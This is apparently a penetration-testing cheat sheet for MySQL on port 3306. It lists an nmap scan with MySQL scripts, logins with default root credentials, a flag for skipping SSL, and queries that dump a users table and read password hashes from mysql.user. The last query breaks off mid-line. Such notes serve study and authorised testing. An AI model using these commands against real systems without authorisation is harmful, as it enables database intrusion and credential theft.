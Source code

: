 # MySQL

## PORT 3306 MySQL

Find credential with other port and use default to login

    nmap -sV -Pn -vv -script=mysql* $ip -p 3306

    mysql -u root -p 'root' -h 192.168.10.10 -P 3306

     mysql -u root -p 'root' -h 192.168.10.10 --skip_ssl (Use this to force authentication without SSL errors)

    select version(); | show databases; | use databse | select * from users; | show tables | select system_user(); | SELECT user, authentication_string FROM mysql.user WHERE user = Pre
